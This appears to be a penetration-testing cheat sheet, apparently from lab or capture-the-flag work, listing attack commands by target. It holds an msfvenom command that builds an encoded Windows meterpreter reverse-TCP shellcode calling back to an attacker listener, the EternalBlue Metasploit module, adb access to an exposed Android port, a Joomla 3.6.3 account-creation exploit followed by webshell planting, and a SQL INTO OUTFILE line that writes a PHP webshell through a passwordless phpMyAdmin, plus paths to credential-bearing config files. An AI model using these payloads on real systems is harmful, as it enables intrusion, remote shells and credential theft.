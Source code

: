```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=172.16.6.1 LPORT=4444 -e x86/shikata_ga_nai -b '\x00\x0a\x0d\x26' -f python --smallest
```

### Microsoft ds

```
exploit/windows/smb/ms17_010_eternalblue
```

### Android

* 5555/tcp open freeciv
* Install adb

```
adb connect [target ip address:port]
```

### Joomla versions 3.6.3

* Able to use joomra.py in order to create an account and login

```
python3 joom.py -u jack -p password -e jack@gmail.com http://10.10.10.10
```

* Edit the templates
* Add in webshell
* Can read the config files which has the use and password, then can ssh in

### XAMPP

* Got in through phpmyadmin \[root:no password]
* Able to get shell through SQL database commands

```
SELECT "<?php echo shell_exec($_GET['cmd']); ?>" into outfile "C:/xampp/htdocs/xampp/shell.php";
```

* Then browse to:

```
10.10.10.10/xampp/shell.php?cmd=dir
```

* Look for config files with passwords

```
C:\xampp\htdocs\admin\config.php
```

### Lucky GetSimple!

```
10.16.1.2/data/users/lucky.xml
```
